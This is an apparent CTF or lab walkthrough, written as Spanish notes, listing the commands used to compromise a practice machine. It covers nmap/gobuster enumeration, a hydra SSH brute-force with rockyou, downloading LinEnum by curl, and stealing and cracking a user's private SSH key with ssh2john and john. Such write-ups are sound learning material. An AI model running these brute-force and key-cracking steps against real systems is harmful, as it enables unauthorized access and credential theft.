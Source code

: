 - nmap -sC -sV -T5 10.10.190.162//Para checar servicios abiertos
- gobuster dir -u 10.10.190.162 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 10.10.190.162//Para enumerar directorios
- dirb http://10.10.190.162//Lo mismo para checar directorios
- enum4linux -a 10.10.190.162
- find / -name rockyou.txt //para encontrar el wordlist de rockyou
- hydra -t 4 -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.190.162 //para hacer bruteforcing del usuario

----

## Esto no me funciono porque no tenia permisos de escritura en usuario jan

- git clone https://github.com/rebootuser/LinEnum.git //Bajar LinEnum
- python -m http.server (Desde mi maquina) 10.10.63.105
- curl http://10.10.63.105/LinEnum.sh -o /root/LinEnum/LinEnum.sh (desde maquina vulnerada) 
- //use tambien SCP y tampoco puse

----

## kay tiene permiso para entrar a .ssh

-------

- cat id_rsa (llave privada) para ver el contenido de la llave privada en el usuario de kay
- touch id_rsa en mi maquina
- nano id_rsa en mi maquina y pego el contenido de lo que copie de llave privada de kay
- chmod 0400 id_rsa  pa darle permisos al user de leer a los demas menos yo en mi maquina
- ssh -i id_rsa kay@10.10.19.106 //para checar si asi puedo ingresar a kay desde mi maquina

-------

## Se tiene que crackear la llave privada 

- cat id_rsa.pub (llave privada pa ver que hay)
- en vez de find / -name usar locate ssh2john.py
- cd /usr/share/john 
- sudo ./ssh2john.py /root/carpeta/ id_rsa > /root/carpeta2/hashNuevo.txt para que este como hash
- john hashNuevo.txt para detectar el tipo de hash
- john hashNuevo.txt -wordlist = /usr/share/wordlists/rockyou.txt

-------

 ## john crash recovery file is locked

- //ir a opt/john y buscar el archivo de john rec y eliminarlo
- john hashNuevo.txt -wordlist = /usr/share/wordlists/rockyou.txt

--------

## Entrar con el hash crackeado por john the ripper


- ssh -i id_rsa kay@10.10.19.106
- //poner beeswax que fue lo que lo que crackeo john


------

## Ver el archivo que tiene la password del usuario kay

- cat pass.bak
